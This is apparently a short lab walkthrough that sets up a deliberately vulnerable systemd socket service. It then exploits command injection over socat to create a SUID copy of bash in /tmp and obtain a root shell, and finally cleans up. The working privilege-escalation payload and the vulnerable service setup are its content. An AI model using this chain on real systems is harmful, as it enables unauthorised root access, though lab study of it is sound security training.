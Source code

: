 Write the following instructions:

```shell
[Unit] 
Description=Vulnerable Socket Command Injection Service 

[Service] 
ExecStart=/home/user/socket_injection.py 
StandardInput=socket
```

Now start the socket:

```shell
sudo systemctl start injection.socket
```

Check if the port is listening:

```shell
user@pwn:~$ ss -tnlp | grep 1234
LISTEN   0        4096                   *:1234                *:*    
```

Run the following commands:

```shell
user@pwn:~$ echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash; chmod +x /tmp/bash;" | socat - TCP:127.0.0.1:1234

user@pwn:~$ ls -l /tmp/bash
-rwsr-sr-x 1 root root 1037528 Nov 15 15:41 /tmp/bash
```

Spawn bash with SUID and print the Effective UID:

```shell
user@pwn:~$ /tmp/bash -p
bash-4.3# whoami
root
```

Remove the bash SUID binary:

```shell
user@pwn:~$ sudo rm /tmp/bash
```